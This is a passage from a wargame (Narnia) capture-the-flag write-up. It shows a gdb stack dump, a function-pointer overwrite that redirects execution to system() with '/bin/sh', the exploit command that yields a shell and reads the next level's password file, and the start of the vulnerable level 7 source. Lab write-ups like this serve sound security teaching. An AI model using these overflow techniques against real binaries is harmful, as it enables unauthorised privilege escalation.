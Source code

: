 ```sourceCode
0xffffd690: 0x00000003  0xffffd754  0x63636363  0x63636363
0xffffd6a0: 0x64646464  0x61616100  0x62626262  0x00000000
0xffffd6b0: 0x080486c0  0xf7fca000  0x00000000  0xf7e3ca63
0xffffd6c0: 0x00000003  0xffffd754  0xffffd764  0xf7feacea
0xffffd6d0: 0x00000003  0xffffd754  0xffffd6f4  0x08049978
0xffffd6e0: 0x08048290  0xf7fca000  0x00000000  0x00000000
0xffffd6f0: 0x00000000  0x32aaee13  0x0a932a03  0x00000000
0xffffd700: 0x00000000  0x00000000  0x00000003  0x08048450
0xffffd710: 0x00000000  0xf7ff0500  0xf7e3c979  0xf7ffd000
0xffffd720: 0x00000003  0x08048450  0x00000000  0x08048471
0xffffd730: 0x08048559  0x00000003  0xffffd754  0x080486c0
0xffffd740: 0x08048730  0xf7feb180
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e62cd0 <system>
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x62626262 in ?? ()
```

What I did here was to disassemble the `main` function and find out where `fp` is getting called, so that I can set a breakpoint on it. Then I run the binary and inspect the stack before the call to `fp`. What we see is that `$esp` points to `0xffffd6a0`, which is where the last 4 values of `b2` are stored. This is also the argument that will be passed to the `fp` call. Function arguments are pushed onto the stack before a function is called. So We want this to point to `/bin/sh`, and we want `fp` to point to `system`. This is the reason for the `p system`, it tells us the location of `system`. Also note that our `segfault` is showing us the last 4 digits of `b1`. Perfect, I can use that to overwrite `fp` with the address of `system` and I should be good to go.

As this is a little more advanced, let's go over the steps:

- Get the address of the argument to whatever `fp` points to
- Figure out how to overwrite that with our argument
- Get the address of `system`
- Overwrite what `fp` points to with `system`'s address
- Assemble payload and hopefully get a shell

So the last step:

```sourceCode
narnia6@melinda:/narnia$ /games/narnia/narnia6 `python -c "print 'a'*8 + '\xd0\x2c\xe6\xf7' +' '+ 'b'*8 + '/bin/sh'"`
$ whoami
narnia7
$ cat /etc/narnia_pass/narnia7
[password]
```

## Level 07

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

int goodfunction();
int hackedfunction();

int vuln(const char *format){
    char buffer[128];
    int (*ptrf)();

    memset(buffer, 0, sizeof(buffer));
```
